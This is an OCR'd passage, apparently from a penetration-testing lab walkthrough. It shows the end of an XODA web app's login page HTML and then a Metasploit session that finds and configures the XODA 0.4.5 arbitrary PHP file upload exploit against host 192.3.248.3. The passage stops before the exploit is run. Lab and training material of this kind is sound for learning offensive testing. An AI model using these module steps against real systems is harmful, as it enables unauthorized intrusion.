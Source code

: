 ```
                        //]]>
                </script>
                <script language="JavaScript" type="text/javascript" src="/js/xoda.js"></script>
                <script language="JavaScript" type="text/javascript" src="/js/sorttable.js"></script>
                <link rel="stylesheet" href="/style.css" type="text/css" />
</head>

<body onload="document.lform.username.focus();">
        <div id="top">
                <a href="/" title="XODA"><span style="color: #56a;">XO</span><span style="color: #fa5;">D</span><span style="color: #56a;">A</span></a>
                        </div>
        <form method="post" action="/?log_in" name="lform" id="login">
                <p>Username:&nbsp;<input type="text" id="un" name="username" /></p>
                <p>Password:&nbsp;<input type="password" name="password" /></p>
                <p><input type="submit" name="submit" value="login" /></p>
        </form>
</body>
</html>
        msf5 auxiliary(scanner/portscan/tcp) > search xoda

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability


msf5 auxiliary(scanner/portscan/tcp) > use 0
msf5 exploit(unix/webapp/xoda_file_upload) > options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > set rhosts 192.3.248.3
rhosts => 192.3.248.3
msf5 exploit(unix/webapp/xoda_file_upload) > set targeturi /
targeturi => /
msf5 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

```